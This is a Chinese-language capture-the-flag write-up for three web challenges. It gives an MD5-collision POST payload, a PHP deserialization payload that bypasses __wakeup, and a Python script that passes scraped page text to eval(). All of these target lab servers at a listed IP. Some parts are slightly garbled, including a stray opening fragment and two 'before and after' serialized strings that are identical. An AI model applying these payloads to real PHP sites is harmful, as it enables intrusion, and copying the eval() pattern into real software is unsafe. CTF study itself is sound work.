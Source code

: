 ```python
?jiangnaij=61146528383226743337&csc8=57

'''
```

`(string)$_POST['s0rry'] != (string)$_POST['DSTBP']` 部分为md5碰撞。先用 hackbar 发送原来的请求，BP抓包，发到 Repeater ，再粘贴一次POST的值即可，多测试几次（做法来自https://www.bilibili.com/video/BV1514y1s7od/?spm_id_from=333.337.search-card.all.click&vd_source=f7d99068aaef12987e4f91ab71f0546a&t=395.9，误打误撞搞出来了，但是原理很简单）

```shell
GET http://175.24.172.136:30070/?jiangnaij=61146528383226743337&csc8=57

POST pysnow[]=NKCDZO&M1sery[]=40610708&s0rry=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2&DSTBP=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2
```

## do_not_wakeup

序列化得 `O:1:"A":1:{s:19:"Aare_you_a_hacker";s:9:"yesyesyes";}` ，修改绕过wakeup得 O:1:"A":1:{s:19:"Aare_you_a_hacker";s:9:"yesyesyes";} ，URL编码后payload如下： `data=O%3A1%3A%22A%22%3A5%3A%7Bs%3A19%3A%22%00A%00are_you_a_hacker%22%3Bs%3A9%3A%22yesyesyes%22%3B%7D`

```php
<?php
class A
{
    private $are_you_a_hacker='yesyesyes';
}
$a=new A();
echo(urlencode(serialize($a)));
?>
```

## can you faster

本来以为是 gunicorn20.0.4请求走私，后面发现是道爆破题，参考  ACT Team 的代码：

```python
import requests
import time
from bs4 import BeautifulSoup

url = 'http://175.24.172.136:30041/'
s = requests.session()
for i in range(200):
 print(i)
 res = s.get(url)
 soup = BeautifulSoup(res.text,'html.parser')
 get_express = soup.find_all('a')[2].text
 get_express = get_express.replace('=','')
 exres = eval(get_express)
 time.sleep(1)
 data = {
  'result':exres,
  'submit': '提交'}
 r = s.post(url,data=data)
#  print(r.text) 
 if 'swpu{' in r.text:
  print(r.text)
  break
```

